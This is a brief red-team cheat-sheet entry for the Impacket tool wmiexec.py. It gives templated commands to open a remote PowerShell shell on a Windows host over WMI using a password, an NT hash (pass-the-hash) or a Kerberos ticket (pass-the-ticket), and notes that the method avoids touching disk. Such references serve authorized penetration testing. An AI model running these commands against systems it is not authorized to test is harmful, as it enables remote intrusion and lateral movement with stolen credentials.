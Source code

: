 # wmiexec.py (imp)

% windows, impacket-exec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT

## desc
```
Execute a command or semi-interactive shell without touching the disk or running a new service using WMI
```

## execute (creds)
```bash
wmiexec.py -debug -shell-type powershell <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## execute (pth) 
```bash
wmiexec.py -debug -shell-type powershell -hashes <nt_hash> <user>@<target_fqdn>
```

## execute (ptt)
```bash
KRB5CCNAME=<ccache>  wmiexec.py -debug -shell-type powershell -no-pass -k <target_fqdn>
```